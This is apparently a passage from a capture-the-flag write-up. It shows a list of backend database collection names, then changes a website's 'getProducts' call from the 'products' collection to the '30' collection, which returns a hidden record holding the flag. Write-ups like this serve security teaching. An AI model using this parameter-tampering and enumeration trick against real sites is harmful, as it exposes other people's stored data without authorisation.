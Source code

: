 ```json
    "test/genresWithParent",
    "test/genresWithSelfRefencingField",
    "test/songsInvalid",
    "test/albumsInvalid",
    "test/testCollection",
    "Members/Badges",
    "Billing/Invoices",
    "Billing/PriceQuotes",
    "Media/Files",
    "Media/Folders"
  ]
}
```

Originally, `getProducts` gets called by the website with `["products"]`, what if we change it to the `["30"]` collection instead?

We get:

```json
{
  "result": [
    {
      "_id": "e15c4715-2c58-43fd-98b4-5b76ab3d17f2",
      "_owner": "aab1bb0b-a1c0-4bdd-a691-de9e032d0d8a",
      "_createdDate": {
        "$date": "2021-06-08T11:03:29.975Z"
      },
      "_updatedDate": {
        "$date": "2021-07-21T12:45:45.250Z"
      },
      "flag": "8169765b-b7f9-4575-b0e0-e29d96dd8e53"
    }
  ]
}
```

We got the flag.